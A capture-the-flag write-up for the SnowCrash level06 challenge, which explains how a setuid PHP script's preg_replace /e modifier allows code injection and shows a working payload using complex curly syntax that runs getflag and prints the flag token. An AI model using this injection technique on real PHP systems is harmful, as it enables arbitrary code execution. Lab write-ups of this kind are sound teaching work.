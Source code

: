 # SnowCrash

## Level06

```sh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```sh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

```php
#!/usr/bin/php
<?php
// Function y($m): Processes a string and performs specific replacements.
function y($m) { 
    // Replace all occurrences of '.' with ' x '.
    $m = preg_replace("/\./", " x ", $m); 
    // Replace all occurrences of '@' with ' y'.
    $m = preg_replace("/@/", " y", $m); 
    // Return the modified string.
    return $m; 
}

// Function x($y, $z): Processes a file and performs transformations on its content.
function x($y, $z) { 
    // Read the contents of the file specified by $y (first argument).
    $a = file_get_contents($y); 

    // Perform a regex replacement with the /e modifier (dangerous!).
    // Matches patterns of the form [x data] and replaces them with the result of y("data").
    // The /e modifier evaluates the replacement string as PHP code, which is a security risk.
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 

    // Replace all occurrences of '[' with '('.
    $a = preg_replace("/\[/", "(", $a); 
    // Replace all occurrences of ']' with ')'.
    $a = preg_replace("/\]/", ")", $a); 

    // Return the modified content.
    return $a; 
}

// Main script execution:
// Call the x function with the first and second command-line arguments.
// $argv[1] is expected to be a file path.
// $argv[2] is unused in the function.
$r = x($argv[1], $argv[2]); 

// Print the result of the x function.
print $r;
?>
```

So basically what it does is take a file as an argument, parse the file and check for occurrences of this pattern [x data] and replace data with the return value of y(data)

We can exploit this due to the /e modifier

##### Explanation

https://agethemes.com/deprecated-preg_replace-the-e-modifier-is-deprecated-use-preg_replace_callback-instead-in/

The e modifier is a deprecated regex modifier that treats the replacement string as PHP code directly and evaluates it (it can execute code for us)

We should be able to write [x system(getflag)] in a file in order to execute it

```sh
level06@SnowCrash:~$ echo '[x system(getflag)]' > /tmp/exploit
level06@SnowCrash:~$ ./level06 /tmp/exploit
system(getflag)
```

This is printing system(getflag) instead of executing it
We need to use this syntax {$(system('getflag'))} 
[Complex curly parsing: https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex]

system('getflag') will then first be executed instead of being treated as a string litteral (Kinda works the same as an expended variable in shell)

```sh
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/exploit
level06@SnowCrash:~$ ./level06 /tmp/exploit
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```